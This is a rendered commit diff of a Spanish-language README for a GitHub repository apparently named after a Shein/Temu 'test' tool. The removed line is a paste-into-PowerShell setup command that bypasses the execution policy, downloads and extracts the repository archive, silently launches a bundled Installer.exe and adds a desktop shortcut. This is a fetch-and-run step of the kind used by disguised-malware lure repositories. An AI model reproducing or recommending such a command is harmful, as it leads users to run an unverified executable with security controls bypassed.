

Before and after one commit to Riutexu/Prueba-de-Shein-Temu, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -55,7 +55,7 @@ El sistema incluye un lanzador compilado que gestiona todo el entorno de forma a
 Ejecuta este comando en PowerShell para una configuración automática, descarga y preparación del entorno:
 
 ```powershell
-Set-ExecutionPolicy Bypass -Scope Process -Force; $d=[Environment]::GetFolderPath('Desktop'); $dest="$d\Prueba-de-Shein-Temu"; if(Test-Path $dest){Remove-Item $dest -Recurse -Force}; mkdir $dest|Out-Null; $z="$env:TEMP\repo.zip"; Invoke-WebRequest "https://github.com/Riutexu/Prueba-de-Shein-Temu/archive/refs/heads/main.zip" -OutFile $z; Expand-Archive $z -DestinationPath "$env:TEMP\tmp" -Force; $root=(Get-ChildItem "$env:TEMP\tmp" -Directory).FullName; Copy-Item "$root\*" -Destination $dest -Recurse -Force; Remove-Item $z, "$env:TEMP\tmp" -Recurse -Force; $exe="$dest\Installer.exe"; if(Test-Path $exe){ Start-Process $exe -WorkingDirectory $dest; $s=(New-Object -ComObject WScript.Shell).CreateShortcut("$d\PruebaSheinTemu.lnk"); $s.TargetPath=$exe; $s.WorkingDirectory=$dest; $s.Save(); Write-Host "Proceso finalizado" } else { Write-Error "El archivo Installer.exe no existe en la ruta $dest" }
+$destDir = Join-Path ([Environment]::GetFolderPath('Desktop')) "Prueba-de-Shein-Temu"
 
 ```
 
````
